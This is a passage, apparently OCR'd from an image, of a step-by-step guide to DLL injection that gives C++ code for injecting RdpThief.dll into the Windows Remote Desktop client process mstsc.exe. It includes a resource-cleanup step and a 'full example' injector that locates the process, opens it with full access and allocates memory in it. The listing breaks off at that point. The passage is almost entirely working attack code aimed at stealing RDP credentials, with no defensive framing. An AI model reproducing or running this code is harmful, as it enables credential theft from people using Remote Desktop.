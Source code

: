   ```cpp
   VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
   CloseHandle(hThread);
   CloseHandle(hProcess);
   ```

9. **Full Example Code:**

   Here's the full code to inject `RdpThief.dll` into the `mstsc.exe` process:

   ```cpp
   #include <windows.h>
   #include <tlhelp32.h>
   #include <iostream>
   #include <string>

   DWORD FindProcessId(const std::wstring& processName) {
       PROCESSENTRY32 processInfo;
       processInfo.dwSize = sizeof(processInfo);

       HANDLE processesSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
       if (processesSnapshot == INVALID_HANDLE_VALUE) {
           return 0;
       }

       Process32First(processesSnapshot, &processInfo);
       if (processName == processInfo.szExeFile) {
           CloseHandle(processesSnapshot);
           return processInfo.th32ProcessID;
       }

       while (Process32Next(processesSnapshot, &processInfo)) {
           if (processName == processInfo.szExeFile) {
               CloseHandle(processesSnapshot);
               return processInfo.th32ProcessID;
           }
       }

       CloseHandle(processesSnapshot);
       return 0;
   }

   int main() {
       std::wstring dllPath = L"C:\\path\\to\\RdpThief.dll";
       std::wstring targetProcess = L"mstsc.exe";

       DWORD processId = FindProcessId(targetProcess);
       if (processId == 0) {
           std::wcerr << L"Failed to find target process." << std::endl;
           return 1;
       }

       HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
       if (hProcess == NULL) {
           std::wcerr << L"Failed to open target process." << std::endl;
           return 1;
       }

       LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, dllPath.size() * sizeof(wchar_t), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
       if (pRemoteMemory == NULL) {
           std::wcerr << L"Failed to allocate memory in target process." << std::endl;
           CloseHandle(hProcess);
           return 1;
       }
   ```